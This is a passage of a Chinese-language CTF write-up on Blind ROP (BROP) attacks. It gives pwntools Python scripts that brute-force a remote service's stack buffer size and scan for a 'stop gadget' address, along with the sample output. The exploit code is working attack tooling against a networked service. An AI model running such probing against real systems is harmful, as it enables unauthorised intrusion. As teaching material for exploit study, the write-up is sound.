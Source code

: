 
## BROP 原理及题目解析
BROP 即 Blind ROP，需要我们在无法获得二进制文件的情况下，通过 ROP 进行远程攻击，劫持该应用程序的控制流，可用于开启了 ASLR、NX 和栈 canary 的 64-bit Linux。这一概念是是在 2014 年提出的，论文和幻灯片在参考资料中。

实现这一攻击有两个必要条件：
1. 目标程序存在一个栈溢出漏洞，并且我们知道怎样去触发它
2. 目标进程在崩溃后会立即重启，并且重启后进程被加载的地址不变，这样即使目标机器开启了 ASLR 也没有影响。

下面我们结合题目来讲一讲。

#### 栈溢出
首先是要找到栈溢出的漏洞，老办法从 1 个字符开始，暴力枚举，直到它崩溃。
```python
def get_buffer_size():
    for i in range(100):
        payload  = "A"
        payload += "A"*i
        buf_size = len(payload) - 1
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.send(payload)
            p.recv()
            p.close()
            log.info("bad: %d" % buf_size)
        except EOFError as e:
            p.close()
            log.info("buffer size: %d" % buf_size)
            return buf_size
```
```
[*] buffer size: 72
```
要注意的是，崩溃意味着我们覆盖到了返回地址，所以缓冲区应该是发送的字符数减一，即 buf(64)+ebp(8)=72。该题并没有开启 canary，所以跳过爆破的过程。

#### stop gadget
在寻找通用 gadget 之前，我们需要一个 stop gadget。一般情况下，当我们把返回地址覆盖后，程序有很大的几率会挂掉，因为所覆盖的地址可能并不是合法的，所以我们需要一个能够使程序正常返回的地址，称作 stop gadget，这一步至关重要。stop gadget 可能不止一个，这里我们之间返回找到的第一个好了：
```python
def get_stop_addr(buf_size):
    addr = 0x400000
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("stop address: 0x%x" % addr)
            return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1
```
由于我们在本地的守护脚本略简陋，在程序挂掉和重新启动之间存在一定的时间差，所以这里 `sleep(0.1)` 做一定的缓冲，如果还是冲突，在 `except` 进行处理，后面的代码也一样。
```
[*] stop address: 0x4005e5
```
